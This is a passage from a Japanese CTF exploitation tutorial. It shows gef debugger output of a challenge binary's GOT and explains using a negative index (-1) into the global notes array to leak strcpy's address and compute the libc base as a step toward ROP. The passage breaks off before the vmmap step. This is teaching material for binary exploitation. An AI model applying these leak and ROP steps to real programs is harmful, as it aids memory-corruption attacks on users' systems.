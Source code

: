 ## libcbaseのleak

ここまででおおよその方針が立ったので具体的に何をするか考えましょう。

ROPには、libc内のgadgetを使います。これは、challengeバイナリ本体は比較的小さく十分な数のgadgetを含んでいないためです(FSBの章で使ったプログラムにあったような`win`関数も今回はありません)。

libc内のgadgetを使うには、まずlibcのアドレス( **libcbase** )をleakする必要があります。
libcがロードされるアドレスは実行時に決まりますが、シンボル同士の相対位置関係は同じlibcを使っている限り不変です。
そのため、まずは何かしらのlibcシンボルをleakできれば良いことになります。

今回は **GOT** からシンボルをleakすることにします。
`notes`はグローバル変数であり、GOTとの相対値が同じです。

```gef
gef> got
Name                        | PLT                | GOT                | GOT value
------------------------------------------------------------------------ .rela.plt ------------------------------------------------------------------------
strcpy                      | 0x000055d54b0fc0d0 | 0x000055d54b0fef90 | 0x00007f96cad9ee30 <__strcpy_avx2>
puts                        | 0x000055d54b0fc0e0 | 0x000055d54b0fef98 | 0x00007f96cac80ed0 <puts>
strlen                      | 0x000055d54b0fc0f0 | 0x000055d54b0fefa0 | 0x00007f96cad9d960 <__strlen_avx2>
__stack_chk_fail            | 0x000055d54b0fc100 | 0x000055d54b0fefa8 | 0x00007f96cad36720 <__stack_chk_fail>
printf                      | 0x000055d54b0fc110 | 0x000055d54b0fefb0 | 0x00007f96cac60770 <printf>
read                        | 0x000055d54b0fc120 | 0x000055d54b0fefb8 | 0x00007f96cad14980 <read>
setvbuf                     | 0x000055d54b0fc130 | 0x000055d54b0fefc0 | 0x00007f96cac81670 <setvbuf>
__isoc99_scanf              | 0x000055d54b0fc140 | 0x000055d54b0fefc8 | 0x00007f96cac62110 <__isoc99_scanf>
exit                        | 0x000055d54b0fc150 | 0x000055d54b0fefd0 | 0x00007f96cac455f0 <exit>

gef> p/x &notes
$16 = 0x55d54b0ff060

gef> p/x 0x55d54b0ff060 - 0x000055d54b0feff8 # got[exit]
$18 = 0x68
gef> p/x 0x55d54b0ff060 - 0x000055d54b0fef90 # got[strcpy]
$17 = 0xd0
```

`notes[choice]`がこのいずれかのGOTを指すようにすればGOTの値がleakできます。

但し、今回は問題の制約上任意のGOTをleakできるわけではありません。
`notes[choice]`のアドレス計算式を見て分かったとおり、`notes`から`0xD0`の倍数だけ離れたところしか指定できません。
`gef`の出力から、`notes`のアドレスと`GOT[exit]`のアドレス差分は`0x68`であることが分かります。また、`strcpy`は`0xD0`です。
よって、このGOTの中でleakに使えるのは`strcpy`だけであることが分かります。

以上より、`choice`として`-1`を入力してあげれば`GOT[strcpy]`の値をleakすることができます。
`strcpy`の値をleakしたら、あとはlibcのベースアドレスと`strcpy`の差分をleakした値から引いてあげるとlibcbaseが計算できます。

なお、「libcのベースアドレスと`strcpy`の差分」は`vmmap`コマンド等の出力を使って計算できます:
